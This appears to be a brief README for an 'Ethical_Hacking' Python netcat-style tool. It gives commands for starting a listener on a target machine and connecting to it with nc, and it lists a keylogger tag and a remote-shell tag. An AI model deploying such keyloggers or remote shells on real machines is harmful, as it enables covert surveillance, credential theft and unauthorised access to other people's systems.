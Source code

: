 # Ethical_Hacking

HOW TO USE:
on target machine: python -m netcat -t <local IP> -p 5555 -l -c

connect: nc <local IP> 5555 <tag>
tags: 	-k, keylogger, saves to ~/Desktop/file.logs
	-rs, remoteshell, start a remoteshell

remoteshell: run on host machine the script remoteshell_master.py. this is included in the package remoteshell


